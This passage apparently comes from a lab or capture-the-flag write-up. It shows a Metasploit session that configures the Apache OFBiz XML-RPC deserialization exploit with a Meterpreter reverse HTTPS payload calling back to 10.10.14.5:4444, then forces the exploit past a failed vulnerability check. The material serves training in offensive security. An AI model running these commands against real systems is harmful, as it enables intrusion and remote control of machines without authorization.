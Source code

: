 Let’s use `Apache OFBiz XML-RPC Java Deserialization`:

```zsh title="Msfconsole"
msf6 > use 1
[*] Using configured payload linux/x64/meterpreter_reverse_https
```

After configuration I have:

```zsh title="Msfconsole"
msf6 exploit(linux/http/apache_ofbiz_deserialization) > show options

Module options (exploit/linux/http/apache_ofbiz_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8443             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addres
                                         ses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.5       yes       The local listener hostname
   LPORT  4444             yes       The local listener port
   LURI                    no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper
```

All that’s left is to run it:

```zsh title="Msfconsole"
msf6 exploit(linux/http/apache_ofbiz_deserialization) > run
[*] Started HTTPS reverse handler on https://10.10.14.5:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. Target cannot deserialize arbitrary data. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set ForceExploit true
ForceExploit => true
msf6 exploit(linux/http/apache_ofbiz_deserialization) > run
```
